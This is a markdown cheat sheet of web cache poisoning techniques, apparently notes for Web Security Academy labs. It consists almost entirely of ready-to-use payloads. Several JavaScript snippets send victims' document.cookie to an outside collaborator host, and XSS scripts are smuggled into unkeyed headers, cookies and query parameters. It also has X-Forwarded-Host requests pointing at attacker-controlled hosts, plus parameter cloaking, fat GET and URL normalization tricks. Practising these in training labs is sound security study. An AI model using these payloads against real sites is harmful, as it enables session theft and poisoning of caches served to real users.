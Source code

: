 # Web Cache Poisoning

`Always add cache busters to test: /?abc=123`

## If X-Forwarded-Host and X-Cache works:
```
  go to the **exploit server** ->

  in **"file"**: /recources/js/tracking.js
  in **"body"**: document.write('<img src="http://burp.oastify.com?c='+document.cookie+'" />')

  or
  fetch('http://burp.oastify.com?c=' + document.cookie, { mode: 'no-cors' });
  location.href = 'http://burp.oastify.com?c=' + document.cookie;
```
```
  var xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://burp.oastify.com?c=' + document.cookie, true);
  xhr.send();
```
![dsx](https://github.com/user-attachments/assets/e3d70422-eda9-40e9-86e4-eee50eb135e3)

## Web cache poisoning with an unkeyed header:
``
  X-Forwarded-Host: kek.com"></script><script>alert(document.cookie)</script>//
``
## Web cache poisoning with an unkeyed cookie:
``
  Cookie: session=x; fehost=prod-cache-01"}</script><script>alert(1)</script>//
  or
  fehost=someString"-alert(1)-"someString
``
## Web cache poisoning with multiple headers:

    On exploit-server change the file name to match the path used by the vulnerable response: /resources/js/tracking.js. 
    In body write alert(document.cookie) script.

``
  GET /resources/js/tracking.js HTTP/1.1
  Host: acc11fe01f16f89c80556c2b0056002e.web-security-academy.net
  X-Forwarded-Host: exploit-server.web-security-academy.net/
  X-Forwarded-Scheme: http
``
## Targeted web cache poisoning using an unknown header

    HTML is allowed in comment section. Steal user-agent of victim with <img src="http://collaborator.com"> payload.
    or use /resources/js/tracking.js and alert(document.cookie), if u dont have collaborator.
``
GET / HTTP/1.1
Host: vulnerbale.net
User-Agent: THE SPECIAL USER-AGENT OF THE VICTIM
X-Host: attacker.com
``
## Web cache poisoning via an unkeyed query string
``
/?search=evil'/><script>alert(1)</script>
Origin:x
``
## Web cache poisoning via an unkeyed query parameter
``
GET /?utm_content=123'/><script>alert(1)</script>
``
## Parameter cloaking
``
/js/geolocate.js?callback=setCountryCookie&utm_content=foo;callback=alert(1)
``
## Web cache poisoning via a fat GET request
``
GET /js/geolocate.js?callback=setCountryCookie
Body:
callback=alert(1)
``
## URL normalization
``
/random"><script>alert(1)</script> 
``
or

``
GET /random</p><script>alert(1)</script><p>foo
``

Cache this path and then deliver URL to the victim
